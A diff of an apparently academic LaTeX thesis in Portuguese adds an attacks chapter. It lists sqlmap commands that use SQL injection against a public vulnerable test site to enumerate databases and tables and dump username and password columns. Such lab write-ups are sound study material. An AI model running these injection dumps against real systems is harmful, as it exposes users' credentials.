

Before and after one commit to lelogrott/OSRC-LAMP, a LaTeX thesis (tccudesc.tex, which reads capitulos.tex): part of page 29 of 33 before the commit and two parts of pages 30 and 31 of 37 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. The pictures show the PDF file tccudesc.pdf that the author committed with the source; the source files are stored in an older character set and shown here as Unicode.

Commit message:
adicionado imagens e + algumas coisas

```diff
--- a/capitulos.tex
+++ b/capitulos.tex
@@ -422,3 +446,5 @@ Entretanto, mesmo com esta ferramenta proporcionando várias funcionalidades, ne
 \chapter{ATAQUES E ANÁLISE}
 \label{ataques}
 
+Neste capítulo será apresentado os ataques realizados e algumas análises dos mesmos, bem como possíveis soluções para os problemas encontrados. Para a realização dos ataques será
+utilizado algumas ferramentas auxiliares, como: Vega, sqlmap (ver seção~\ref{lampkali} para mais detalhes).
@@ -429,3 +462,76 @@ Entretanto, mesmo com esta ferramenta proporcionando várias funcionalidades, ne
+\begin{lstlisting}[style=BashInputStyle]
+    $ sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1%20AND%201=2%20--%20
+    -D acuart -T users --columns
+\end{lstlisting}
+
+
+\begin{figure}[H]
+\centering
+\includegraphics[width=0.8\textwidth]{imagens/sqlmap_columnsnames_acuart.png}
+\caption{Nome das colunas de um \ac{BD}. Fonte: Próprio autor}
+\label{fig:XSS}
+\end{figure}
+
+\begin{lstlisting}[style=BashInputStyle]
+    $ sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1%20AND%201=2%20--%20
+    --dbs --threads 3
+\end{lstlisting}
+
+
+\begin{figure}[H]
+\centering
+\includegraphics[width=0.8\textwidth]{imagens/sqlmap_dbnames_acuart.png}
+\caption{Nome dos \ac{BD}. Fonte: Próprio autor}
+\label{fig:XSS}
+\end{figure}
+
+\begin{lstlisting}[style=BashInputStyle]
+    $ sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1%20AND%201=2%20--%20
+    --dbs --threads 3
+\end{lstlisting}
+
+\begin{figure}[H]
+\centering
+\includegraphics[width=0.8\textwidth]{imagens/sqlmap_tablenames2_acuart.png}
+\caption{Nome das tabelas no \ac{BD}. Fonte: Próprio autor}
+\label{fig:XSS}
+\end{figure}
+
+\begin{lstlisting}[style=BashInputStyle]
+    $ sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1%20AND%201=2%20--%20
+    --tables --threads 3
+\end{lstlisting}
+
+\begin{figure}[H]
+\centering
+\includegraphics[width=0.8\textwidth]{imagens/sqlmap_tablenames_acuart.png}
+\caption{. Fonte: Próprio autor}
+\label{fig:XSS}
+\end{figure}
+
+\begin{lstlisting}[style=BashInputStyle]
+    $ sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1%20AND%201=2%20--%20
+    --threads 3 -D acuart -T users -C pass --dump
+\end{lstlisting}
+
+\begin{figure}[H]
+\centering
+\includegraphics[width=0.8\textwidth]{imagens/sqlmap_pass_acuart.png}
+\caption{. Fonte: Próprio autor}
+\label{fig:XSS}
+\end{figure}
+
+\begin{lstlisting}[style=BashInputStyle]
+    $ sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1%20AND%201=2%20--%20
+    --threads 3 -D acuart -T users -C uname --dump
+\end{lstlisting}
+
+\begin{figure}[H]
+\centering
+\includegraphics[width=0.8\textwidth]{imagens/sqlmap_uname_acuart.png}
+\caption{. Fonte: Próprio autor}
+\label{fig:XSS}
+\end{figure}
 
 \section{ANÁLISE DOS RESULTADOS}
 
```
Also changed, not shown: tccudesc.tex (+16 -0 lines), imagens/Xsser-url-schema.png (added), imagens/sqlmap_columnsnames_acuart.png (added), imagens/sqlmap_dbnames_acuart.png (added), imagens/sqlmap_pass_acuart.png (added), imagens/sqlmap_tablenames2_acuart.png (added), imagens/sqlmap_tablenames_acuart.png (added), imagens/sqlmap_uname_acuart.png (added), tccudesc.pdf, capitulos.tex (31 more changed lines), 5 other files.
